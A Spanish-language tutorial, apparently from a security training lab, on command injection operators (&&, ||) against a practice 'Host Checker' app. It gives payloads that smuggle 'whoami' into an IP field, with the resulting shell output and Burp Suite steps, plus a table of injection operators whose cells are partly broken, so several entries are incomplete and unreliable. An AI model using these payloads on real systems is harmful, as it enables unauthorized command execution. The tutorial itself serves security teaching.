 
---
# **Otros Operadores de Inyección de Comandos**

Después de confirmar la vulnerabilidad en la aplicación **Host Checker**, podemos probar diferentes operadores de inyección para evaluar cómo maneja la aplicación distintas variantes.

## **1. Inyección con el operador AND (`&&`)**

El operador `&&` ejecuta el segundo comando solo si el primero **se ejecuta correctamente**.

**Payload:**

```
127.0.0.1 && whoami
```

Ejecutado en Linux:

```bash
ping -c 1 127.0.0.1 && whoami
```

Salida esperada:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
user
```

### **Prueba en la aplicación web**

- Modificar la solicitud en **Burp Suite**.
- Codificar la URL (`CTRL + U`).
- Enviar la petición.

Si la aplicación es vulnerable, se ejecutará `whoami` solo si `ping` se ejecuta sin errores.

---

## **2. Inyección con el operador OR (`||`)**

El operador `||` ejecuta el segundo comando solo si el primero **falla**.

**Payload:**

```
127.0.0.1 || whoami
```

Ejecutado en Linux:

```bash
ping -c 1 127.0.0.1 || whoami
```

Salida esperada:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```

`whoami` **no se ejecuta** porque `ping` tuvo éxito.

### **Forzando la ejecución de `whoami`**

Podemos hacer que `ping` falle intencionalmente al omitir la IP:

```
|| whoami
```

Ejecutado en Linux:

```bash
ping -c 1 || whoami
```

Salida esperada:

```
ping: usage error: Destination address required
user
```

Ahora `whoami` se ejecuta porque `ping` falló.

### **Prueba en la aplicación web**

- Modificar la solicitud en **Burp Suite**.
- Enviar `|| whoami` en la solicitud.
- Si la aplicación es vulnerable, solo se verá la salida de `whoami`, obteniendo un resultado más limpio.

---

## **3. Tabla de operadores de inyección**

Estos operadores pueden utilizarse en diferentes tipos de inyección:

|**Tipo de Inyección**|**Operadores Comunes**|
|---|---|
|**SQL Injection**|`' , ; -- /* */`|
|**Command Injection**|`; && &|
|**LDAP Injection**|`* ( ) &|
|**XPath Injection**|`' or and not substring concat count`|
|**OS Command Injection**|`; &|
|**Code Injection**|`' ; -- /* */ $() ${} #{} %{} ^`|
|**Path Traversal**|`../ ..\\ %00`|
|**Object Injection**|`; &|
|**XQuery Injection**|`' ; -- /* */`|
|**Shellcode Injection**|`\x \u %u %n`|
|**Header Injection**|`\n \r\n \t %0d %0a %09`|

Estos operadores pueden variar dependiendo del entorno y del lenguaje utilizado en la aplicación.

---

### **Conclusión**

- Diferentes operadores afectan la ejecución de comandos de manera distinta.
- La elección del operador depende de cómo la aplicación maneja los comandos.
- **Inyección OR (`||`)** es útil cuando no podemos ejecutar ambos comandos con `;` o `&&`.
- **Burp Suite** es clave para modificar y probar distintos payloads.
